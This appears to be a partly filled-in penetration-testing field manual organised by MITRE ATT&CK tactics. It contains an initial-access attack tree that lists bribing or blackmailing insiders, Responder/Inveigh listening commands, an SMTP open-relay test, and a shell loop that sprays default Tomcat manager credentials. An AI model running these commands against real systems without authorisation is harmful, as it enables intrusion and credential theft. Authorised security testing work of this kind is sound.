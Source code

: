 
# Security Testing Field Manual

Introduction and purpose.

# Operational Considerations

## Goals

List of possible goals.

## Operation Planning

```
1. Set goal(s): objectives to accomplish
2. Combine various tactics to achieve your operational goal(s)
3. Select appropriate tachniques (and choose suitable tools) to achieve your tactical goals
```

## Toolbox

# Tactical Objectives

## Ops-Sec Considerations ([PRE-ATT&CK: TA0021](https://attack.mitre.org/tactics/TA0021/))

## Attack Infrastructure ([PRE-ATT&CK: TA0022](https://attack.mitre.org/tactics/TA0022/))

## Getting Access ([ATT&CK: TA0001](https://attack.mitre.org/tactics/TA0001/))

*Tactical goal: get IP address in target's internal network*

Possible techniques (in a form of attack tree):

```
1. [OR] Social Engineering
1.1. [OR] Delivery of phishing email/message
1.1.1. Malicious link (T1192)
1.1.2. Malicious attachment (T1193)
1.1.3. Malicious social media message (T1194)
1.2. Drive-by compromise (T1189)
1.3. [OR] "Tasking" insider to plant connect-back implant
1.3.1. by fooling him (e.g. run it for me; print doc from this USB)
1.3.2. by bribing him
1.3.3. by blackmailing him
1.4. Fooling insider to reveal his credentials (T1078)
...

2. [OR] Breaching the perimeter/DMZ
2.1. Exploit Public-Facing Application (T1190)
2.2. Exploit remote access mechanism (T1133)
...

3. [OR] Proximity attacks
3.1. Hacking into wireless network
3.2. Using USB drive drops (T1091)
3.3. [OR] Breaching physical perimeter
3.3.1. Plant drop-in device and plug it into network
3.3.2. Plant USB device and plug it to existing machine
...

4. [OR] Exploiting Trusted Relationship (T1199)
4.1. [OR] Hack 3rd party entity that delivers service to target (T1195)
4.1.1. Open source Software supplier 
4.1.2. Commercial Software supplier 
4.1.3. Hack company that provides services to the target
4.1.4. Hack target's contractor worker
4.2. [AND] Hack "to be acquired" company
4.2.1. Get knowledge about near aquisitions
4.2.1. Hack the company that is going to be acquired 
4.3. [AND] Build trust relationship with the target
4.3.1. Work as a contractor for the target
4.3.2. Exploit the trust that was built
...
```

## Discovery ([ATT&CK: TA0007](https://attack.mitre.org/tactics/TA0007/))

*Tactical goal: Understand the target environment*

### Understanding the network

```
What's the network topology? Is it flat?
Where are egress points?
Where are "multi-homed" boxes?
```

## Credential Access ([ATT&CK: TA0006](https://attack.mitre.org/tactics/TA0006/))

*Tactical goal: Acquire valid set of credentials*

## Lateral Movement ([ATT&CK: TA0008](https://attack.mitre.org/tactics/TA0008/))

# Techniques (Discovery)

## Network Sniffing ([ATT&CK: T1040](https://attack.mitre.org/techniques/T1040/))

Sniffing:

```
```

Passive OS fingerprinting:

```
# Linux
screen -L -d -m responder -I eth0 -A -f

# Windows
Invoke-Inveigh -IP <current-box-ip> -ConsoleOutput Y -Inspect Y
```

# Techniques (Credential Access)

# Techniques (Lateral Movement)

## Vulnerable/misconfigured Remote Services (T1021 / T1210)

### SMTP service

Ports:

    TCP: 25,587,465

Implementations:

    https://en.wikipedia.org/wiki/List_of_mail_server_software#SMTP

Common misconfiguration: SMTP Open Relay

```
HELO ABC
MAIL FROM: foo@domain.com
RCPT TO: bar@domain.com
DATA
Testing for SMTP open relay issue.
.
QUIT
```

Noteworthy vulnerabilities:

```
```

## Vulnerable/misconfigured HTTP/HTTPS Services (T1021 / T1210)

### Apache Tomcat: default/weak credentials

```
Use `auxiliary/scanner/http/tomcat_mgr_login`
```

OR (if many different ports are used)
    ```
		Prereq: Nmap scan results imported to msf

		msf> services -S Coyote -c port -o /tmp/tomcat.csv
		$ for i in $(cat /tmp/tomcat.csv | tr -d '"' | tr ',' ':'); do echo "http://$i/manager/html"; done > tomcat-urls.txt

		$ wget https://raw.githubusercontent.com/netbiosX/Default-Credentials/master/Apache-Tomcat-Default-Passwords.mdown

		$ cat Apache-Tomcat-Default-Passwords.mdown | tr -d ' ' | awk -F'|' '{print $2":"$3}' > PAYLOADS/tomcat-defaults.txt

		$ while read line; do echo -n "$line : "; for i in $(cat PAYLOADS/tomcat-defaults.txt); do curl -H "Authorization: Basic $(echo -n "$i" | base64)" -s -o /dev/null -w "%{http_code}" --url "$line"; echo; done; done < tomcat-urls.txt > tomcats-results.txt
    ```
